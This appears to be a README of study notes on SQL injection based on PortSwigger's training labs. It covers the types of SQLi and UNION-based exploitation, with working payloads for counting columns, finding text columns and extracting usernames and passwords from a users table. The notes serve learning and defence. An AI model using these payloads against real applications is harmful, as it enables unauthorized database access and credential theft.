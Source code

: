 # SQL Injection (SQLi) - PortSwigger Labs

## 📌 Introduction
SQL Injection (SQLi) is a vulnerability that allows attackers to manipulate an application's database queries. This can result in unauthorized access, data leaks, and even system compromise.

---

## 🏆 Types of SQL Injection
1. **In-Band SQL Injection**
   - **Union-based SQLi**: Uses `UNION` to retrieve additional data.
   - **Error-based SQLi**: Leverages database errors to extract information.
   
2. **Blind SQL Injection** (No direct feedback)
   - **Boolean-based SQLi**: Infers database responses based on true/false conditions.
   - **Time-based SQLi**: Uses delays to determine success.
   
3. **Out-of-band SQL Injection**
   - Extracts data through external channels like DNS or HTTP requests.

---

## 🔍 Exploiting SQL Injection with UNION
### **How UNION Attacks Work**
If a vulnerable application returns query results in responses, attackers can use `UNION` to retrieve additional data from the database.
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
```
**Conditions for a Successful UNION Attack:**
1. Both queries must have the **same number of columns**.
2. The data types of each column must be **compatible**.

---

### **Finding the Number of Columns**
Two main techniques can determine the correct number of columns:

#### **1️⃣ ORDER BY Method**
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
An error occurs when the specified column index exceeds the actual column count.

#### **2️⃣ UNION SELECT NULL Method**
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
If the number of `NULL` values is incorrect, an error occurs. When correct, an additional row is displayed.

**Note:** On Oracle databases, `DUAL` is required:
```sql
' UNION SELECT NULL FROM DUAL--
```

---

### **Identifying Columns That Accept Text**
To find which columns can store text data, test each column:
```sql
' UNION SELECT 'test',NULL,NULL--
' UNION SELECT NULL,'test',NULL--
' UNION SELECT NULL,NULL,'test'--
```
An error indicates an incompatible data type, while a successful attempt displays the string in the response.

---

### **Extracting Sensitive Data**
Once column count and data types are known, attackers can retrieve data:
```sql
' UNION SELECT username, password FROM users--
```

#### **Handling Single Column Output**
If only one column is returned, values can be concatenated:
```sql
' UNION SELECT username || '~' || password FROM users--  -- Oracle
' UNION SELECT CONCAT(username, ':', password) FROM users--  -- MySQL
```

## 🎯 References
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)






